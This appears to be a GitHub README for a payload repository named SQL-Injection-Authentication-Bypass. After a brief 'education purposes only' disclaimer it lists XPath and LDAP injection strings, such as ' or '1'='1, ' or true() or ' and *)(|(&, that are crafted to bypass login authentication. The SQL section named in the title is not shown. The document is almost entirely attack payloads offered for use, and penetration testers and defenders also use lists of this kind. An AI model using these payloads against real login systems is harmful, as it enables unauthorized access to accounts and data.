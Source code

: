 # SQL-Injection-Authentication-Bypass
Xpath Injection, LDAP Injection, SQL Injection Authentication Bypass

All content provided by a education purposes only and  use your own risk, I don't any responsibility 
for illegal work.
```
XPATH Injection Authentication Bypass:
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2

LDAP Injection Authentication Bypass:
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
